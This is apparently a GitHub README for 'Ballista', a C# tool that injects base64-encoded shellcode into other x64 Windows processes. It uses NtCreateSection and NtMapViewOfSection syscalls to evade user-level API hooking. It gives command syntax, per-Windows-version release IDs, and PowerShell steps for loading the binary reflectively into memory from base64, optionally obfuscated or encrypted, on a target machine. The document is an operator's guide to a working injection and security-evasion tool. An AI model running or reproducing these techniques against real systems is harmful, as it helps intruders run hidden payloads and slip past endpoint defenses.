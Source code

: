 # Ballista
**Ballista** is a C# tool responsible for x64 cross-process injection. The tool relies on `NtCreateSection()` and `NtMapViewOfSection()` syscalls in order to evade user level API hooking.

# Usage
```console
Ballista.exe <release> <x64_pid>         <b64_x64sc>
Ballista.exe <release> <x64_processName> <b64_x64sc>
```

| Argument          | Description                           |
| -----------       | -----------                           |
| release           | Target Release ID (see the releases section)                  |
| x64_pid           | Process ID of a remote process        |
| x64_processName   | Name of an x64 process to inject into |
| b64_x64sc         | Base64 encoded shellcode              |


## Releases
> Note: *Windows Server 2016* and *2019* offsets rely on an assumption that the offsets in these specific systems are the same as in their Windows 10 version equivalents. Further testing is advised.

### Windows 10
| Windows 10 Version | Release ID     |
| -----------        | -----------    |
| 20H2               | 1              |
| 2004               | 2              |
| 1909               | 3              |
| 1903               | 4              |
| 1809               | 5              |
| 1803               | 6              |
| 1709               | 7              |
| 1703               | 8              |
| 1607               | 9              |
| 1511               | 10             |
| 1507               | 11             |


### Windows 7
| Windows 7 Version  | Release ID     |
| -----------        | -----------    |
| SP1                | 12             |
| SP0                | 12             |


### Windows Server 2019
| Windows 10 Version | Release ID     |
| -----------        | -----------    |
| 20H2               | 1              |
| 2004               | 2              |
| 1909               | 3              |
| 1903               | 4              |
| 2019 LTSC (1809)   | 5              |


### Windows Server 2016
| Windows 10 Version | Release ID     |
| -----------        | -----------    |
| 2016 LTSC (1607)   | 9              |
| 1511               | 10             |
| 1507               | 11             |


### Windows Server 2012
| Server 2012 Version | Release ID     |
| -----------         | -----------    |
| R2                  | 13             |
| SP0                 | 14             |


# Reflection
**Ballista** can be easily reflected into memory using a serialized base64 string, which can be generated by `reflectionUtil.py`:
```powershell
PS C:\Users\tester> python .\reflectionUtil.py Key 1 notepad /EiD5PDow...
WV4CAxsSHxMIX0cgBShaJysd...

PS C:\Users\tester> [System.Reflection.Assembly]::LoadFile("C:\Users\tester\Ballista.exe")

GAC    Version        Location
---    -------        --------
False  v4.0.30319     C:\Users\tester\Ballista.exe

PS C:\Users\tester> [Ballista.Ballista]::Shoot("WV4CAxsSHxMIX0cgBShaJysd...", "Key")
```

Alternatively, one can Base64 encode (or obfuscate / encrypt) the binary on a local machine:
```powershell
PS C:\Users\tester> $dll = [System.IO.File]::ReadAllBytes("C:\Users\tester\Ballista.exe")
PS C:\Users\tester> [System.Convert]::ToBase64String($dll)
TVqQAAMAAAAEAAAA//8AA...
```

And afterwards load it on a target machine in the following way:

```powershell
PS C:\Users\tester> [System.Reflection.Assembly]::Load([System.Convert]::FromBase64String("TVqQAAMAAAAEAAAA//8AA..."))

GAC    Version        Location
---    -------        --------
False  v4.0.30319     

PS C:\Users\tester> [Ballista.Ballista]::Shoot("WV4CAxsSHxMIX0cgBShaJysd...", "Key")
```